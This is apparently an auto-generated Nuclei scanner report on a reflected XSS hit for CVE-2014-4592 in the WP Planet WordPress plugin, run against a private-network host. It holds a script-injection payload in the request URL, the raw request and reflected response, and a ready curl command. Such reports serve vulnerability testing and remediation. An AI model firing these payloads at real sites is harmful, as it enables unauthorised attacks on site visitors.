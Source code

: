 ### WP Planet <= 0.1 - Unauthenticated Reflected Cross-Site Scripting (CVE-2014-4592) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2014-4592**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/wp-planet/rss.class/scripts/magpie_debug.php?url=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:01 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WP Planet <= 0.1 - Unauthenticated Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2014, wordpress, wp-plugin, xss |
| Severity | medium |
| Description | A cross-site scripting vulnerability in rss.class/scripts/magpie_debug.php in the WP-Planet plugin 0.1 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the url parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2014-4592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-4592) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/wp-planet/rss.class/scripts/magpie_debug.php?url=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 249
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/wp-planet/rss.class/scripts/magpie_debug.php?url=<script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/3c9a3a97-8157-4976-8148-587d923e1fb3
- https://nvd.nist.gov/vuln/detail/cve-2014-4592
- http://codevigilant.com/disclosure/wp-plugin-wp-planet-a3-cross-site-scripting-xss

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/wp-planet/rss.class/scripts/magpie_debug.php?url=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)